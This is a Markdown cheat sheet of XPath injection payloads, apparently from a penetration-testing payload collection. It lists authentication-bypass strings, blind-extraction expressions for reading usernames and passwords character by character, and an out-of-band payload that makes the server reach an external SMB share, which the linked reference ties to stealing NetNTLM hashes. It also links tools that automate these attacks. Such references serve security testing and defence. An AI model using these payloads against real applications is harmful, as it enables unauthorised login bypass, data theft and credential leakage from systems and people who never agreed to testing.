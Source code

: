 ```yaml
---
title: XPath Injection
categories: [Injection, Attack]
tags: [Injection, Xpath, Attack, XML]
---
```

> XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.

## Summary

* [Exploitation](#exploitation)
* [Blind exploitation](#blind-exploitation)
* [Out Of Band Exploitation](#out-of-band-exploitation)
* [Tools](#tools)
* [References](#references)

## Exploitation

Similar to SQL : `"string(//user[name/text()='" +vuln_var1+ "' and password/text()=’" +vuln_var1+ "']/account/text())"`

```sql
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
search=')] | //user/*[contains(*,'
search=Har') and contains(../password,'c
search=Har') and starts-with(../password,'c
```

## Blind Exploitation

1. Size of a string
    ```sql
    and string-length(account)=SIZE_INT
    ```
2. Extract a character
    ```sql
    substring(//user[userid=5]/username,2,1)=CHAR_HERE
    substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
    ```

## Out Of Band Exploitation

```powershell
http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
```

## Tools

- [xcat](https://github.com/orf/xcat) - Automate XPath injection attacks to retrieve documents
- [xxxpwn](https://github.com/feakk/xxxpwn) - Advanced XPath Injection Tool 
- [xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart) - A fork of xxxpwn using predictive text 
- [xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
- [XmlChor](https://github.com/Harshal35/XMLCHOR) - Xpath injection exploitation tool

## References

* [OWASP XPATH Injection](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))
* [Places of Interest in Stealing NetNTLM Hashes - Osanda Malith Jayathissa - March 24, 2017](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
